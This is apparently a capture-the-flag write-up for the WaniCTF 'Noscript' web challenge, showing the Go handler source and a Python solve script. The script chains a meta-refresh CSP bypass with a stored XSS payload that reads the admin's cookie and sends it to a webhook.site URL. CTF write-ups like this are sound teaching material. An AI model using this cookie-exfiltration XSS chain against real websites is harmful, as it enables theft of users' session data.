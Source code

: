 https://ctftime.org/event/2377
# Noscript (Web)

Ignite it to steal the cookie!

https://web-noscript-lz56g6.wanictf.org/

## Analysis
We have webpage where we are supposed to trigger XSS and steal the cookie from admin, but we need to bypass CSP. There are few endpoints:
 
- `/report`
- `/signin`
- `/user/:id`
- `/username/:id`

```go
r.GET("/user/:id", func(c * gin.Context) {
  c.Header("Content-Security-Policy",
    "default-src 'self', script-src 'none'")
  id: = c.Param("id")
  re: = regexp.MustCompile(
    "^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[8|9|aA|bB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$"
  )
  if re.MatchString(id) {
    if val, ok: = db.Get(id);
    ok {
      params: = map[string] interface {} {
        "id": id,
        "username": val[0],
          "profile": template.HTML(val[1]),
      }
      c.HTML(http.StatusOK, "user.html", params)
    } else {
      _, _ = c.Writer.WriteString(
        "<p>user not found <a href='/'>Home</a></p>")
    }
  } else {
    _, _ = c.Writer.WriteString("<p>invalid id <a href='/'>Home</a></p>")
  }
})
```

We see that CSP rule is set for this endpoint, so we can't trigger JS execution, but we can use `<meta>` refresh tag to navigate to `/username/:id` which is basically same endpoint just without CSP in place:

```go
r.GET("/username/:id", func(c * gin.Context) {
  id: = c.Param("id")
  re: = regexp.MustCompile(
    "^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[8|9|aA|bB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$"
  )
  if re.MatchString(id) {
    if val, ok: = db.Get(id);
    ok {
      _, _ = c.Writer.WriteString(val[0])
    } else {
      _, _ = c.Writer.WriteString(
        "<p>user not found <a href='/'>Home</a></p>")
    }
  } else {
    _, _ = c.Writer.WriteString("<p>invalid id <a href='/'>Home</a></p>")
  }
})
```

## Solution

So idea is just to create first note with our XSS payload via username field, then create another note with meta refresh tag payload via `profile` field - for navigation to the first note but with `/username/:id` since ids of notes are stored our XSS will trigger on the endpoint where there is no CSP. 

```python
import requests
import urllib.parse

first = "https://web-noscript-lz56g6.wanictf.org/signin"


p1 = requests.post(first)

note1 = p1.url

# fetch get payload  
fpayload = """<script>
    document.addEventListener('DOMContentLoaded', function() {
        function getCookieValue(name) {
            const value = `; ${document.cookie}`;
            const parts = value.split(`; ${name}=`);
            if (parts.length === 2) return parts.pop().split(';').shift();
        }

        var flagCookieValue = getCookieValue('flag');
        fetch('https://webhook.site/79772fdd-c167-4829-a53c-ba6d3c5fcae6?cookie=' + encodeURIComponent(flagCookieValue), {
            method: 'GET',
            mode: 'no-cors',
            credentials: 'include'
        }).then(response => {
            console.log('Fetch response:', response);
        }).catch(error => {
            console.error('Fetch error:', error);
        });
    });
</script>"""

form_data1 = { "username": fpayload, "profile":"asdfg1"} 

r2 = requests.post(f"{note1}", data=form_data1)

parsed_url = urllib.parse.urlparse(r2.url)

path_parts = parsed_url.path.split('/')
path_parts[1] = 'username'  # Replace 'user' with 'username'
new_path = '/'.join(path_parts)

# Construct the new URL with the modified path
new_url = urllib.parse.urlunparse(('http', 'app:8080', new_path, '', '', ''))
p2 = requests.post(first)

payload2 = f"<meta http-equiv='refresh' content='0;url={new_url}'>"

form_data2 = {"username": "foo", "profile": payload2}

note2 = p2.url

for_admin = urllib.parse.urlparse(note2).path

p3 = requests.post(f"{note2}", data=form_data2)

# send to admin
form_data3 = {"url": for_admin}
send_to_admin = requests.post("https://web-noscript-lz56g6.wanictf.org/report", data=form_data3)

print("Admin response: ", send_to_admin.text)
```

## Flag
`FLAG{n0scr1p4_c4n_be_d4nger0us}`

github.com/0xhebi 2024/06/22